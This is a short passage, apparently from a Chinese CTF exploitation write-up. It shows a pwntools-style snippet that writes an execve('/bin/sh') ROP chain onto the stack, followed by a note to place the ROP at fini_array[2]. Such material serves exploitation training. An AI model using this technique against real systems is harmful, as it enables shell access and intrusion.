 [![](assets/1706254573-482baf25186d23ad5b38aa974c36a8a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125152250-8c02fe92-bb52-1.png)

```plain
write(esp,p64(rax))
write(esp+8,p64(0x3b)) 
write(esp+16,p64(rdi)) 
write(esp+24,p64(bin_sh))
write(esp+32,p64(rsi))
write(esp+40,p64(0))
write(esp+48,p64(rdx))
write(esp+56,p64(0))
write(esp+64,p64(syscall))
```

然后在 fini\_array\[2\]处构造 rop 即可
